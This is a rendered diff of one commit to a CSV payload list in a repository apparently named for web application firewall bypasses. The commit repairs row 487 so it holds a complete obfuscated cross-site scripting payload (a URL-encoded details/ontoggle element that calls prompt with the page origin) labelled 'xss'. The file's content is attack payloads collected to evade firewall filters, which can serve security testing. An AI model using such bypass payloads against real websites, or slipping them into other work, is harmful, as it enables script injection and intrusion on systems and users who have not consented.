

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-B487: &lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt
+B487: &lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt%2Ca(origin)%20x&gt;
-C487: a(origin)%20x&gt;
+C487: xss
-D487: xss
+D487: (empty)
```
